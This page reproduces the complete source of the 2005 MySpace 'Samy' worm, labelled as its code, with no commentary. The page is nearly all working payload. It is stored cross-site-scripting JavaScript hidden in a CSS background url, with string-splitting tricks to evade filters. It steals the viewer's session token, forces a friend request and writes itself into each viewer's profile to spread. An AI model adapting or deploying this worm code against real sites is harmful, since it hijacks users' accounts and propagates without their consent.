

http://namb.la/popular/tech.html
# Code of the MySpace Worm
<div id=mycode style="BACKGROUND: url('java
script:eval(document.all.mycode.expr)')" expr="var B=String.fromCharCode(34);var A=String.fromCharCode(39);function g(){var C;try{var
D=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return C}else{return eval('document.body.inne'+'rHTML')}}function getData(AU)
{M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function getQueryParams(){var E=document.location.search;var
F=E.substring(1,E.length).split('&');var AS=new Array();for(var O=0;O<F.length;O++){var I=F[O].split('=');AS[I[0]]=I[1]}return AS}var J;var
AS=getQueryParams();var L=AS['Mytoken'];var M=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://
www.myspace.com'+location.pathname+location.search}else{if(!M){getData(g())}main()}function getClientFID(){return findIn(g(),'up_launchIC( '+A,A)}
function nothing(){}function paramsToString(AV){var N=new String();var O=0;for(var P in AV){if(O>0){N+='&'}var Q=escape(AV[P]);while(Q.indexOf('+')!
=-1){Q=Q.replace('+','%2B')}while(Q.indexOf('&')!=-1){Q=Q.replace('&','%26')}N+=P+'='+Q;O++}return N}function httpSend(BH,BI,BJ,BK){if(!J){return
false}eval('J.onr'+'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeader('Content-Type','application/x-www-formurlencoded');
J.setRequestHeader('Content-Length',BK.length)}J.send(BK);return true}function findIn(BF,BB,BC){var R=BF.indexOf(BB)+BB.length;var
S=BF.substring(R,R+1024);return S.substring(0,S.indexOf(BC))}function getHiddenParameter(BF,BG){return findIn(BF,'name='+B+BG+B+' value='+B,B)}
function getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var U=BG+'=';var V=BF.indexOf(U)+U.length;var W=BF.substring(V,V+1024);var
X=W.indexOf(T);var Y=W.substring(0,X);return Y}function getXMLObj(){var Z=false;if(window.XMLHttpRequest){try{Z=new XMLHttpRequest()}catch(e)
{Z=false}}else if(window.ActiveXObject){try{Z=new ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=new ActiveXObject('Microsoft.XMLHTTP')}
catch(e){Z=false}}}return Z}var AA=g();var AB=AA.indexOf('m'+'ycode');var AC=AA.substring(AB,AB+4096);var AD=AC.indexOf('D'+'IV');var
AE=AC.substring(0,AD);var AF;if(AE){AE=AE.replace('jav'+'a',A+'jav'+'a');AE=AE.replace('exp'+'r)','exp'+'r)'+A);AF=' but most of all, samy is my hero.
<d'+'iv id='+AE+'D'+'IV>'}var AG;function getHome(){if(J.readyState!=4){return}var AU=J.responseText;AG=findIn(AU,'P'+'rofileHeroes','</
td>');AG=AG.substring(61,AG.length);if(AG.indexOf('samy')==-1){if(AF){AG+=AF;var AR=getFromURL(AU,'Mytoken');var AS=new
Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();httpSend('/index.cfm?
fuseaction=profile.previewInterests&Mytoken='+AR,postHero,'POST',paramsToString(AS))}}}function postHero(){if(J.readyState!=4){return}var
AU=J.responseText;var AR=getFromURL(AU,'Mytoken');var AS=new
Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getHiddenParameter(AU,'hash');httpSend('/index.cfm?
fuseaction=profile.processInterests&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function main(){var AN=getClientFID();var BH='/index.cfm?
fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;J=getXMLObj();httpSend(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?
fuseaction=invite.addfriend_verify&friendID=11851658&Mytoken='+L,processxForm,'GET')}function processxForm(){if(xmlhttp2.readyState!=4){return}var
AU=xmlhttp2.responseText;var AQ=getHiddenParameter(AU,'hashcode');var AR=getFromURL(AU,'Mytoken');var AS=new
Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to Friends';httpSend2('/index.cfm?
fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return false}
eval('xmlhttp2.onr'+'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xmlhttp2.setRequestHeader('Content-Type','application/x-www-formurlencoded');
xmlhttp2.setRequestHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return true}"></DIV>